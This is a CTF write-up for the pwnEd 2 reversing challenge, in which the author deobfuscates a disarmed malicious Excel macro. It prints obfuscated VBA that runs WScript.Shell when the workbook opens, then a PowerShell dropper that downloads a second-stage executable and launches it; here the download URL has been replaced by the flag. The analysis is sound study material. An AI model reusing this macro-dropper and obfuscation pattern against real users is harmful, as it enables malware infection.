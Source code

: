 ```yaml
---
title: "pwnEd 2 - сука блять Writeup"
date: 2021-03-04T23:02:59Z
draft: false
tags: ["pwned2ctf", "reversing"]
author: "Pol T."
toc: false
---
```

## TL;DR
Analyze a malicious Excel file and extract its payload
## Description
I found some Russian malware online and I have no idea what it's doing D:

Author: xenocidewiki

The challenge provides us with a Finances2020covid.xlsm file
## Initial analysis
First of all, when you download this file, Microsoft Defender warns you that it is malware. I guess that the author took a malware sample and removed the actual malicious part to create this challenge which is why Defender blocks it. In a real world scenario, you wouldn't simply open the file or even keep it on your computer. The .xlsm hints indeed to a macro-infused excel file, which is commonly used as an initial infection vector. You can easily extract the macro with oledump and analyze it safely if you want to be sure that the macro is not dangerous. In this case however, I'll simply open it with excel and see what it contains.
![Excel 1](excel1.png)
When we first open it, we see this big image that asks us to "enable editing".
Again, you should never do this in a real world sceanrio because this allows the macro to run but in this case, it's safe to enable editing. After that, we get another warning that tells us that macros are deactivated. Again,activate them so we can solve this challenge. When we do this, a message box appears containing the words **Thank you!** Now let's analyze the macro code in detail.
## Macro analysis
To see the macro code in Excel, click on the Developer Tab (you may need to activate this if you haven't used it before) and pick Visual Basic. You can now see a big chunk of code written in VBA (I included a shortened version here so you get the gist of the obfuscation). 
```vba
Private Function decrypt(ciphertext As Variant, key As Variant)
    Dim plaintext As String
    plaintext = ""
    
    For i = LBound(ciphertext) To UBound(ciphertext)
        plaintext = plaintext & Chr(key(i) Xor ciphertext(i))
    Next
    decrypt = plaintext
End Function
Private Function SKDKLNWEio2nf()
Dim wsh As Object

Set wsh = VBA.CreateObject(decrypt(Array(202, 75, (92 Xor (241 - 10)), 215, 91, 144, (135 + 30), (318 - 110), (279 - 92), (92 - 24), 105, 26, ((7 - 2) Xor 74)), Array((124 Xor ((247 - 82) + (103 - 43))), (24 - 0), 216, 165, ((0 + (24 - 12)) Xor 62), (271 - 47), (170 Xor 123), (76 Xor 178), (356 - 124), ((11 - 4) + 37), (2 + 10), 118, (48 - 13))))

Dim wortn As Boolean: wortn = True

Dim wndstyle As Integer: wndstyle = (1 Xor (0 + (0 - 0)))

Dim knlkdneKLADSFLKNfMKWEMLFAS123123njk As String

knlkdneKLADSFLKNfMKWEMLFAS123123njk1 = decrypt(Array(((51 + 171) Xor (8 + 28)), (228 - 7), (131 Xor 43), (19 Xor 11), (132 Xor (31 + (132 - 47))), 168, 23, (151 Xor (100 - 31)), (123 - 3), ((167 - 73) Xor (418 - 202)), (188 - 18)), Array(153, (64 Xor ((152 - 9) + 97)), (((19 - 5) + (41 - 18)) Xor (6 + 227)), 56, (204 + (23 - 4)), (143 + (212 - 101)), (69 - 24), ((26 + (4 - 2)) Xor (68 + 61)), (49 Xor 7), ((199 - 58) Xor 36), (322 - 97)))
knlkdneKLADSFLKNfMKWEMLFAS123123njk2 = ""
wsh.Run knlkdneKLADSFLKNfMKWEMLFAS123123njk1 & knlkdneKLADSFLKNfMKWEMLFAS123123njk2 & knlkdneKLADSFLKNfMKWEMLFAS123123njk3 & knlkdneKLADSFLKNfMKWEMLFAS123123njk32 &
End Function
Private Sub Workbook_Open()

Dim uname As String
Dim strCompName As String
uname = Application.UserName
hostname = Environ$(decrypt(Array((((17 - 3) + 2) Xor 72), ((19 + 141) Xor (7 + (118 - 46))), (114 + (85 - 39)), ((156 - 61) Xor 44), (90 Xor ((2 - 1) + 0)), 176, (12 Xor (73 - 27)), 150, (100 Xor 189), 106, ((49 + 0) Xor (152 - 70)), (8 Xor (49 - 15))), Array(59, ((121 - 60) Xor 189), ((31 + (43 - 5)) Xor 136), 14, (135 - 56))))

If uname = decrypt(Array(161, 143, (157 - 30), (12 Xor (65 + 0)), ((416 - 192) + (16 - 6)), (349 - 157), 194, 138), Array(215, 224, (44 - 17), (6 + 32), 139, (212 - 39), 163, (((75 - 24) + (19 - 6)) Xor 164))) Then
   ...
    End If
Else
    MsgBox decrypt(Array(36, (2 + 12), (21 + 104), (40 + (13 - 0)), 77, ((31 - 12) Xor (1 + 11)), 239, (31 Xor 63), (15 - 4), 0), Array((103 Xor 23), (((53 - 0) + 7) Xor 90), (6 + (24 - 2)), 91, ((48 - 23) + 13), (70 - 7), 150, ((12 - 3) Xor (89 - 19)), 126, 33))
End If

End Sub
```
We can clearly see that this code has been heavily obfuscated. Deobfuscating this is however not that hard. All you need is a few well-placed calls to MsgBox to see the values that are returned by all the decrypt functions. So for example, if you wanted to know what the parameter to the Environ$ call is, simply add
```vba
MsgBox decrypt(Array((((17 - 3) + 2) Xor 72), ((19 + 141) Xor (7 + (118 - 46))), (114 + (85 - 39)), ((156 - 61) Xor 44), (90 Xor ((2 - 1) + 0)), 176, (12 Xor (73 - 27)), 150, (100 Xor 189), 106, ((49 + 0) Xor (152 - 70)), (8 Xor (49 - 15))), Array(59, ((121 - 60) Xor 189), ((31 + (43 - 5)) Xor 136), (3 - 0), (8 + 38), (329 - 133), (19 + 52), ((188 - 28) + 68), (((54 - 25) + 28) Xor 142), ((3 - 1) + (11 - 2)), 14, (135 - 56)))
```
to the script and the value will be shown to you when you run it. If we apply this technique for each obfuscated value in WorkBook_Open() function (the function that gets called when you open the excel file). We get the following cleaned up version:
```vba
Private Sub Workbook_Open()

Dim uname As String
Dim strCompName As String
uname = Application.UserName
hostname = Environ$("computername")
If uname = "vodkaman" Then
    If hostname = "SIGINTCORP" Then
        Call Success
    Else
        MsgBox "Thank you!"
    End If
Else
    MsgBox "Thank you!"
End If

End Sub
```
Now this is much easier to analyze. The code gets our username and computername and then compares them to **vodkaman** and **SIGINTCORP** respectively. It then calls Success (I renamed SKDKLNWEio2nf to Success). So let's see what happens if we call Success:
![Excel 2](excel2.png)
It opens up a shell and runs some script that finishes after a few seconds and prints *woooops*
Now let's analyze the other function in the macro. There are two important parts in this code:
```vba
Set wsh = VBA.CreateObject(WScript.Shell)
```
This sets up the shell
```vba
wsh.Run ...
```
This sets up the command to run in the shell. If we print the parameters to this call, we get the powershell payload.
## Powershell analysis
```powershell
cmd /V:ON/Kset riMt=}
 } ;'spooooow' tuptuO-etirW { hctac };kaerb ;vnE$ metI-ekovnI;)vnE$ ,a$(eliFdaolnwoD.tneilCbeW${ yrt{ )etiSbeW$ ni a$( hcaerof;'exe.' + emaneliF$ + '\\' + cilbup:vne$ = vnE$;'f2lk3m2ja' = emaneliF$;'9RXMfJHMm9FbsRjZfNDbw92Mw91dwg2XyNDZuBzdfFzXuBTbtBzYuV3X0BjbfNXMfNjc0cHb002XBJkV7RWZudHc' = etisbeW$;tneilCbeW.teN tcejbo-wen = tneilCbeW$&&
 for /L %W in (337;-1;0)do set AW7L=!AW7L!!riMt:~%W,1!&&if %W==0 powershell !AW7L:~6! 
```
Again, this payload is heavily obfuscated and the main part is reversed. After a little clean up and reversing the main code, the payload looks like this:
```powershell
$WebClient = new-object Net.WebClient;
$Website = 'cHduZWR7VkJBX200bHc0cjNfMXNfbjB0X3VuYzBtbTBuXzFfdzBuZDNyX2gwd19wM29wbDNfZjRsbF9mMHJfMXR9';
$Filename = 'aj2m3kl2f';
$Env = $env:public + '\\' + $Filename + '.exe';
foreach ($a in $WebSite) 
	{try 
		{$WebClient.DownloadFile($a, $Env);
		Invoke-Item $Env; 
		break;} 
	catch 
		{ Write-Output 'wooooops'; }
```
This payload basically tries to download the second-stage payload.
It would normally have an array of domains defined in the $Website variable that it can contact. Then it tries to download the 'aj2m3kl2f' binary from those domains, saves it, and then tries to invoke it. In this case, however, because the malware has been disarmed, the domain is actually just a base64 encoded string. If decode that, we get our flag: pwned{VBA_m4lw4r3_1s_n0t_unc0mm0n_1_w0nd3r_h0w_p3opl3_f4ll_f0r_1t}

## Conclusion
I really liked this challenge as it introduces macros as a common technique that get often used for initial infection. While it wasn't too complicated, the different techniques needed to solve this challenge were however a nice change from the usual ELF Reversing that you can find in CTFs. Shoutout to xenocidewiki for creating a bunch of great challenges and introducing more variety to the category.
